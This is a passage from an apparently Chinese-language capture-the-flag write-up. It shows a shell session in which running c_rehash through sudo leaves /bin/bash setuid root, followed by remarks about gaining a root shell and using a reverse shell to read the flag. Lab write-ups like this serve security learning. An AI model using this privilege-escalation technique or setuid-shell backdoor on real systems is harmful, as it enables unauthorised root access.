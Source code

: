 ```bash
(remote) maria@hash:/tmp$ sudo /usr/bin/c_rehash
Doing /usr/lib/ssl/certs
WARNING: Skipping duplicate certificate ACCVRAIZ1.pem
WARNING: Skipping duplicate certificate AC_RAIZ_FNMT-RCM.pem
WARNING: Skipping duplicate certificate AC_RAIZ_FNMT-RCM.pem
--------------
WARNING: Skipping duplicate certificate thawte_Primary_Root_CA_-_G2.pem
WARNING: Skipping duplicate certificate thawte_Primary_Root_CA_-_G3.pem
WARNING: Skipping duplicate certificate thawte_Primary_Root_CA_-_G3.pem
(remote) maria@hash:/tmp$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

成功执行了命令，拿下rootshell！！！

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506112236469.png" alt="image-20250611223333290" style="zoom:50%;" />

这里执行不了`flag.sh`没事，反弹shell就可以正常显示了。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506112236470.png" alt="image-20250611223544112" style="zoom:50%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202506112236471.png" alt="image-20250611223606567" style="zoom:50%;" />